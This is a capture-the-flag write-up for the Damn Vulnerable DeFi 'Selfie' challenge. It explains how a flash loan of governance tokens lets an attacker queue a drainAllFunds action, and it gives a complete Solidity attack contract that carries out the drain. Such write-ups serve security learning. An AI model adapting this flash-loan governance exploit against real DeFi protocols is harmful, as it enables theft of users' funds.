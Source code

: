 - - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Selfie
### Challenge description:
    A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

    Wow, and it even includes a really fancy governance mechanism to control it.

    What could go wrong, right ?

    You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

- - -

In this challenge, we must drain all ETH from Governance pool. According to `_hasEnoughVotes()` function, it is possible to make any action queue if we have more than half of governance token. Since we utilize flash loan of governance token, we can make action queue to call `drainAllFunds()` function. Here is attack contract:

```solidity
contract AttackTheSelfiePool {

    address public selfiePool;
    address public liquidityToken;
    address public simpleGovernance;
    address public attacker_owner;

    uint256 actionId;

    constructor(address _selfiePool, address _damnValuableTokenSnapshot, address _simpleGovernance) {
        selfiePool = _selfiePool;
        liquidityToken = _damnValuableTokenSnapshot;
        simpleGovernance = _simpleGovernance;
        attacker_owner = msg.sender;
    }

    function attackTheSelfiePool() public {
        uint256 borrowAmount = DamnValuableTokenSnapshot(liquidityToken).balanceOf(address(selfiePool));
        SelfiePool(selfiePool).flashLoan(borrowAmount);
    }

    function receiveTokens(address token,uint256 borrowAmount) public {
        DamnValuableTokenSnapshot(liquidityToken).snapshot();

        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", tx.origin);
        actionId = SimpleGovernance(simpleGovernance).queueAction(selfiePool, data, 0);
        DamnValuableTokenSnapshot(liquidityToken).transfer(msg.sender, borrowAmount);
    }

    function executeAction_governance() public payable{
        SimpleGovernance(simpleGovernance).executeAction(actionId);
    }
}
```
